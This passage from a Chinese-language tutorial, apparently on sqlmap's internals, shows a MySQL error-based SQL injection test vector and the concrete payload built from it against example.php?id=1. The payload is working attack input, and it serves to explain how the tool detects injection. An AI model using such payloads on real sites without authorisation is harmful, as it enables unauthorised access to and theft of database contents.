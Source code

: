 ```text
example.php?id=1
```

![](../../.gitbook/assets/sqlmap25.jpg)

可以成功注入的测试向量：

```text
<test>
    <title>MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)</title>
    ...
    <request>
        <payload>AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',(SELECT (ELT([RANDNUM]=[RANDNUM],1))),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)</payload>
    </request>
    <response>
        <grep>[DELIMITER_START](?P<result>.*?)[DELIMITER_STOP]</grep>
    </response>
    <details>
        <dbms>MySQL</dbms>
        <dbms_version> >= 5.0</dbms_version>
    </details>
</test>
```

根据测试向量，将`[RANDNUM], [DELIMITER_START], [DELIMITER_STOP]`按需进行替换，生成的逻辑假数据包如下：

```text
example.php?id=1 AND (SELECT 4229 FROM(SELECT COUNT(*),CONCAT(0x7176707871,(SELECT (ELT(4229=4229,1))),0x7176627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

![](../../.gitbook/assets/sqlmap26.jpg)
